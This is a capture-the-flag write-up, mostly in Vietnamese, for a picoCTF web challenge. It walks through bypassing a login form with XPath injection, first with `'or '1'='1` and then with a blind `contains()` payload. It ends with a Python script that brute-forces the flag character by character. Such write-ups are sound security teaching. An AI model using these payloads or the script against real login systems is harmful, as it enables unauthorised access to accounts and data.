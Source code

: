 X marks the spot
===
**Category:** Web

**Author:** MADSTACKS
### Description
Another login you have to bypass. Maybe you can find an injection that works ?

### Overview
- Khi vào site thì chúng ta thấy được một form login với username và password.
- Kiểm tra mà nguồn thì chúng ta cũng không được cung cấp gì hơn.
- Lúc đầu mình nghĩ là sqli vì mình thử input với `'` thì server trả về 500 nên mình nghĩ là sqli nhưng sau đọc hint của tác giả để trong challenge là `xpath` nên mình đã nghĩ đến ngay xpath injection

### Solution
- Mình đoán câu query của xpath có thể là như này `'//abc[UserName/text()='' And //abc[PassWord/text()=''` nên mình thử `'or '1'='1` với username và password thì nhận được `You're on the right path`. Lúc đầu mình nghĩ đăng nhập vào thì flag sẽ nằm ở trong đó nhưng sau khi nhận được thông báo đó thì mình nghĩ chắc là blind xpath injection
- Mình tìm kiếm trên google sau một thời gian thì thấy bài viết này https://stackoverflow.com/questions/1064968/how-to-use-xpath-contains-here nói về sử dụng contains để tìm kiếm chuỗi theo elenment và thấy bài viết này https://0xd0ff9.wordpress.com/2018/07/28/isitdtu-ctf-2018/ nói về cách sử dụng contains để khai thác một bài ctf
- Thử lại với payload này `'or //*[text()[contains(.,'abc')]]or '1'='1` và `password=test` thì nhận được `login false` tiếp tục thử với `'or //*[text()[contains(.,'picoCTF')]]or '1'='1` thì nhận được `You're on the right path`. Tới đây mình đã nghĩ đến việc viết một đoạn script để brute các kí tự tiếp theo và cũng chính là flag

##### Payload
```py
import requests
import string
url = 'URL'
flag = ''
for i in range(1,100):
	for j in "{_"+string.printable:
		temp = flag+j
		data = {"name":f"'or //*[text()[contains(.,'picoCTF{temp}')]]or '1'='1","pass":"test"}
		print(data)
		r = requests.post(url = url, data = data)
		if "Login failure" not in r.text:
			flag += j
			print(flag)
			break

print(flag)
```